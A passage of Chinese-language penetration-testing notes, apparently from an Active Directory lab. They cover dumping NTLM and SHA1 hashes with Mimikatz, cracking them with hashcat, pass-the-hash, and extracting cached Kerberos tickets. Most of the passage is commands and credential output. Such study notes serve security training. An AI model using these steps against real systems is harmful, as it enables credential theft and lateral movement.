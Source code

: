 ```
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        tspkg :
        wdigest :
         * Username : dave
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
```
> jeff:
> - NTLM Hash = `2688c6d2af5e9c7ddb268899123744ea`
> - SHA1 Hash = `f57d987a25f39a2887d158e8d5ac41bc8971352f`
>
> dave:
> - NTLM Hash = `08d7a47a6f9f66b97b1bae4178747494`
> - SHA1 Hash = `a0c2285bfad20cc614e2d361d6246579843557cd`

>[!Tip]
>對於 Windows 2003 的 AD instances，NTLM 是唯一可用的雜湊演算法。🥚 對於執行 Windows Server 2008 或更高版本的實例，`NTLM` 和 `SHA-1` 可能都可用。\
>在 Windows 7 等較舊的作業系統或手動設定的作業系統上，`WDigest 11`會處於啟用狀態。啟用 WDigest 時，執行 Mimikatz 會顯示明文密碼以及密碼雜湊值。

#### - 利用 NTLM Hash
可參考 Password Attacks 章節
- Offline Cracking
```
┌──(chw㉿CHW)-[~]
└─$ hashcat -m 1000 jeff.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- pass-the-hash (PtH)
```
mimikatz # sekurlsa::pth /user:jeff /domain:corp.com /ntlm:2688c6d2af5e9c7ddb268899123744ea /run:powershell.exe
```

#### 2. Mimikatz 提取 Kerberos Ticket
##### 2.1 訪問共享資料夾，觸發 Kerberos Ticket 存儲
WEB04 上 UNC 路徑為\\web04.corp.com\backup 的SMB 共享的內容
```
PS C:\Users\jeff> dir \\web04.corp.com\backup


    Directory: \\web04.corp.com\backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
```
> 讓系統產生一個 TGS（Service Ticket），並快取於 LSASS
##### 2.2 用 Mimikatz 提取 Kerberos Ticket
使用 Mimikatz 透過 `sekurlsa::tickets` 顯示儲存在記憶體中的 Ticket
```
```